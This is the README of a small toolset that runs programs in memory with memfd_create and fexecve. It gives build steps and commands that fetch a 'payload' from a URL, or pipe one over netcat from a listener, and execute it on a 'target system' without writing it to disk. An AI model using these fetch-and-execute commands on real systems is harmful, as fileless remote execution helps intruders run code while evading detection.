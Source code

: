 # memfd_create/fexecve harnesses
These exceute programs in memory. The programs can be delivered via stdin or
from an URL.

## Building
This has only been tested on Ubuntu 18.04.
```
sudo apt install libcurl4-openssl-dev
make
```

## From URL
This will download _file_ from _host_, and execute it with _args_.

```
./fexecve-from-url http://host/file args
```

## Using netcat (method1)
This connects to _host_ on _port_ to receive the payload.

* On system serving the payload:
```
cat file | nc -lp port
```

* On target system:
```
nc host port | ./fexecve-from-stdin args
```

## Using netcat (method2)
This listens for incoming connections on port 4444 to receive the payload.

* On target system:
```
nc -lp 4444 | ./fexecve-from-stdin args
```

* Send a payload:
```
cat file | nc target 4444
```


